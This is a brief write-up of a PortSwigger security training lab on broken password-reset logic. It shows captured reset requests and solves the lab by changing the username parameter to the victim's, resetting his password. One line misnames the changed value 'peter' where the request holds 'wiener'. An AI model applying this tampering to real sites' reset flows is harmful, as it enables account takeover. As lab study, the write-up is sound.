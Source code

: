 # [Lab: Password reset broken logic](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic)

## Lab

This lab's password reset functionality is vulnerable. To solve the lab, reset Carlos's password then log in and access his "My account" page.

Your credentials: `wiener:peter`
Victim's username: `carlos`

## Analysis

reset password function:

- enter username
- receive reset password url from email
- enter new password
- send request:

  ```http
  POST /forgot-password?temp-forgot-password-token=UHq4L9gmclrmr3t17KKUjNORVlduXeZA HTTP/1.1

  temp-forgot-password-token=UHq4L9gmclrmr3t17KKUjNORVlduXeZA&username=wiener&new-password-1=peter&new-password-2=peter
  ```

## Solutions

change username in the reset password request `peter` -> `carlos`:

  ```http
  POST /forgot-password?temp-forgot-password-token=UHq4L9gmclrmr3t17KKUjNORVlduXeZA HTTP/1.1

  temp-forgot-password-token=UHq4L9gmclrmr3t17KKUjNORVlduXeZA&username=carlos&new-password-1=peter&new-password-2=peter
  ```
